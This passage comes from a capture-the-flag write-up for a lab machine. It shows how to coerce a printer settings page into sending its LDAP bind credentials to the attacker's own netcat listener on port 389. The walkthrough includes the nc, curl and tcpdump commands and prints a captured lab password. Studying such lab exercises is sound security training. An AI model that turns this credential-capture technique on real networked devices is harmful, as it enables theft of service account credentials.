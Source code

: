 We land on a settings page with a form. We have the possibility of modifying the
server address, server port, username and password of an unknown service.

I tried editing all the fields, but nothing happened.

#### Under the hood

In fact, when we change a setting, a POST request is sent to `/settings.php`
with an `ip` POST parameter set to the value of the IP form field.

Therefore, we can assume that we're not actually able to edit the other fields.
It's not clear what this web page is used for... maybe it's used to
automatically log in to the specified IP using the port, username and password
in the form, and change something?

I also tried inspecting the HTML code to see if the password was written in
cleartext, but unfortunately it isn't.

#### Obtaining credentials

If our theory is right, the system logs in to the specified IP and the port
`389` (corresponding to LDAP) using the credentials in the form, which we can't
access. However, we're able to edit the IP the system connects to! If we enter
our own IP, maybe it will try to log in to it, hence disclosing the hidden
credentials?

Let's try this!

I'll open a listener on my own machine on port `389`:

```sh
❯ nc -lvnp "389"
```

Then I'll send a POST request to `settings.php` with the IP set to my own.

```sh
❯ curl -s -o "/dev/null" "http://10.10.11.108/settings.php" -X "POST" -d "ip=10.10.14.9"
```

If we check our listener:

```
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.108] 56961
0*`%return\svc-printer�
                       1edFg43012!!
```

We did receive a connection!

However, it's a bit gibberish and the credentials aren't clear. Therefore, I'll
start a capture of all the incoming traffic on my `tun0` interface:

```sh
❯ tcpdump -i "tun0" -w "/workspace/traffic.pcap"
```

Then, I'll resend the POST request to coerce the target machine to connect to my
own.
